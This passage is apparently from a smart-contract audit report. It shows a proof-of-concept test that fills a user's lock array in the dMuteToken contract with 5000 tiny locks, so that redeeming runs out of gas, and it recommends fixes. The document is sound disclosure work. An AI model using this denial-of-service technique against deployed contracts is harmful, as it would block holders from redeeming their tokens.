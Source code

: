 You can add the following test to the `dao.ts` test file:

```javascript
it('Lock DOS', async function () {
    var tx = await muteToken.approve(dMuteToken.address, MaxUint256)


    let lock_time_week = new BigNumber(60 * 60 * 24 * 7);
    let max_lock = lock_time_week.times(52);

    let lock_amount = new BigNumber(1).times(Math.pow(10,2))

    // @audit fill up array
    for(let i=0;i<5000;i++) {
        tx = await dMuteToken.LockTo(lock_amount.toFixed(0), lock_time_week.toFixed(),owner.address)
    }

    await time.increase(60 * 60 * 24 * 7)

    tx = await dMuteToken.Redeem([0])
})
```

It adds `5000` lock items to the array of the `owner` address. When the `owner` then tries to redeem even a single lock the transaction fails due to an out of gas error.

(Sometimes it reverts with `TransactionExecutionError: Transaction ran out of gas` error sometimes it reverts due to timeout. If you try a few times it should revert with the out of gas error.)

The amount of `MUTE` tokens that the attacker loses to execute this attack is negligible. As you can see in the test `100 Wei * 5000 = 500,000 Wei` is sufficient (There needs to be some amount of `MUTE` such that the `LockTo` function does not revert). The only real cost comes down to Gas costs which are cheap on `zkSync`.

### Tools Used

VSCode

### Recommended Mitigation Steps

First for the `GetUnderlyingTokens` function: The contract should keep track of underlying token amounts for each user in a mapping that is updated with every lock / redeem call. The `GetUnderlyingTokens` function then simply needs to return the value from this mapping.

Secondly, fixing the issue with the `RedeemTo` function is a bit harder. I discussed this with the sponsor and I have been told they don't want this function to require an already sorted `lock_index` array as parameter. So the `lock_index` array can contain indexes in random order.

This means it must be sorted internally. Depending on the expected length of the `lock_index` array different sorting algorithms may be used. I recommend to use an algorithm like [quick sort](https://gist.github.com/subhodi/b3b86cc13ad2636420963e692a4d896f) to allow for many indexes to be specified at once.

I will use a placeholder for the sorting algorithm for now so the sponsor may decide which one to use.
